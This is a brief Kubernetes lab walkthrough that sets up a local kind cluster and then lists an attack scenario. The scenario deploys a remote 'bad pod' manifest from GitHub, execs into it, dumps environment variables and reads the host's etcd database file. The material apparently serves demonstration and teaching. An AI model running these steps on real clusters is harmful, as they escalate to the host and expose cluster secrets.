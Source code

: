 #### Create Cluster and set infrastructure

````
kind create cluster --config=cluster-setup.yaml

kubectl cluster-info --context kind-kind

kubectl apply -f serviceaccount.yaml

kubectl apply -f deployment.yaml

````

#### Attack scenario

````

kubectl get pods

kubectl exec -it $POD_NAME /bin/sh

kubectl apply -f https://raw.githubusercontent.com/LarsLefebvre/cloud-native-bad-pods/main/bad-pod.yaml

kubectl get pods

kubectl exec -it $BAD_POD_NAME /bin/sh

whoami

printenv 

cd /host/var/lib/etcd/member/snap

cat db

````



